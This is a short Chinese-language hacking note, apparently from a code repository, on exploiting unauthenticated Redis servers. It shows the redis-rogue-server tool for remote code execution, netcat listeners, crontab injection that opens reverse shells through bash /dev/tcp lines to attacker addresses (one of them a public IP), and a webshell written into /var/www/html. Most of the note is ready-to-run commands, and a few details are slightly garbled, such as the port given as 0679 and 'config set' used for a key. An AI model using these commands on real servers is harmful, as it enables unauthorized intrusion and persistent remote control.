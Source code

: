# redis-rogue-server rce

当 `redis` 可以远程访问并且Redis <= 5.0.5

1. 访问:0679端口。 查看是否可以远程访问

2. `redis-rogue-server.py -h`

 find / -name *redis* 找找绝对路径

3. 使用

```
python3 redis-rogue-server.py --rhost 127.0.0.1 --lhost 127.0.0.1
                                远程主机            本地主机


# 开启监听
# nc相应端口
 nc -lvvp 9999

```
Redis未授权访问验证、获取敏感信息

　　Nmap扫描后发现主机的6379端口对外开放，就可以用本地Redis远程连接服务器（redis在开放往外网的情况下，默认配置下是空口令，端口为6379）连接后可以获取Redis敏感数据。

这里我使用另一台安装了redis的centos远程连接测试

```bash
./redis-cli   -h   192.168.242.134.

redis 192.168.242.134:6379> info # 查看敏感信息

```

### 利用crontab反弹shell

>>直接向靶机的Crontab写入任务计划，反弹shell回来
```
redis 192.168.242.134:6379> set x "\n* * * * * bash -i >& /dev/tcp/192.168.242.131/888 0>&1\n"
redis 192.168.242.134:6379> config set dir /var/spool/cron/
redis 192.168.242.134:6379> config set dbfilename root
redis 192.168.242.134:6379> save
```

set x "\n* * * * * bash -i >& /dev/tcp/2.82.140.145/5678 0>&1\n"

然后在攻击机（192.168.242.131）上启动 nc 监听 888端口，等待反弹shell。这过程需要一些时间。
```
nc -lvnp 888
```

bash -i >& /dev/tcp/192.168.91.1/5678 0>&1


### 写入webshell

当自己的redis权限不高时，可以向web里写入webshell，但需要对方有web服务且有写入权限。假设靶机里面存在WEB服务并且目录在 /var/www/html
```
redis 192.168.242.134:6379>config set dir /var/www/html

redis 192.168.242.134:6379>config set x "<?php phpinfo();?>"

redis 192.168.242.134:6379>config set dbfilename webshell.php

redis 192.168.242.134:6379>save
```